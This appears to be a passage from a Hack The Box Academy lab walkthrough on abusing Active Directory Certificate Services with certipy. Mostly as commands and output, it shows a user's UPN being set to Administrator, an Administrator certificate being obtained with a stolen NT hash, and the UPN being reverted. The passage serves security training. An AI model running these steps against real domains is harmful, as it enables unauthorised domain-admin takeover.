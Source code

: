 ```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-bnvlm3dysz]─[~]
└──╼ [★]$ certipy account update -u blwasp@lab.local -p Password123! -user user2 -upn Administrator

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'user2':
    userPrincipalName                   : Administrator
[*] Successfully updated 'user2'
```

Then, students need to use the `req` command of `certipy`, specifying the template `User` (which allows `Client Authentication`) for the `-template` option and the previously attained NT hash `ee22ddf0f8a66db4217050e6a948f9d6` of `user2` for the `-hashes` option; students will attain a `PFX` certificate for the user `Administrator`:

Code: shell

```shell
certipy req -u user2@lab.local -hashes ee22ddf0f8a66db4217050e6a948f9d6 -ca lab-LAB-DC-CA -template User
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-bnvlm3dysz]─[~]
└──╼ [★]$ certipy req -u user2@lab.local -hashes ee22ddf0f8a66db4217050e6a948f9d6 -ca lab-LAB-DC-CA -template User

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 66
[*] Got certificate with UPN 'Administrator'
[*] Certificate object SID is 'S-1-5-21-2570265163-3918697770-3667495639-1192'
[*] Saved certificate and private key to 'administrator.pfx'
```

Subsequently, students need to revert the `UPN` of `user2` to its original value (i.e., `user2`), using the `account` command of `certipy` along with the `update` positional argument, specifying `user2` for the `-user` and `-upn` options:

Code: shell

```shell
certipy account update -u blwasp@lab.local -p Password123! -user user2 -upn user2
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-aoyamvb8qf]─[~]
└──╼ [★]$ certipy account update -u blwasp@lab.local -p Password123! -user user2 -upn user2

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'user2':
    userPrincipalName                   : user2
[*] Successfully updated 'user2'
```
